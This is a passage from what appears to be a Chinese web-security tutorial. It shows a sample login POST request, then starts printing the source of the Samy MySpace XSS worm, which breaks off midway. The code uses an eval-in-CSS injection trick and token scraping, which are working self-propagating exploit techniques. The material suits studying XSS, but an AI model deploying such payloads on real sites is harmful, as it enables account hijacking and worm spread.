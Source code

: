 发送的 POST 请求类似如下：

```
POST http://server/path/ HTTP/1.1
Host: server
User-Agent: Firefox/1.5.0.1
Content-length: 25

Username=Foo&Password=Bar
```

# Samy 蠕虫代码

```
<div id=mycode style=”BACKGROUND: url('javascript:eval(document.all.mycode.expr)')” expr=”
var B = String.fromCharCode(34);
var A = String.fromCharCode(39);
function g() {
    var C;
    try {
        var D = document.body.createTextRange(); C = D.htmlText
    } catch (e) {}
    if (C) {
        return C
    } else {
        return eval('document.body.innerHTML')
    }
}
function getFromURL(BF, BG) {
    var T;
    if (BG == 'Mytoken') {
        T = B
    } else {
        T = ' & '
    }
    var U = BG + ' = ';
    var V = BF.indexOf(U) + U.length;
    var W = BF.substring(V, V + 1024);
    var X = W.indexOf(T);
    var Y = W.substring(0, X);
    return Y
}
function getData(AU) {
    M = getFromURL(AU, 'friendID');
    L = getFromURL(AU, 'Mytoken')
}
function getQueryParams() {
    var E = document.location.search;
    var F = E.substring(1, E.length).split(' & ');
    var AS = new Array();
    for (var O = 0; O < F.length; O++) {
        var I = F[O].split(' = ');
        AS[I[0]] = I[1]
    }
    return AS
}
var J;
var AS = getQueryParams();
var L = AS['Mytoken'];
var M = AS['friendID'];
if (location.hostname == 'profile.myspace.com') {
    document.location
        = 'http: //www.myspace.com' + location.pathname + location.search
} else {
```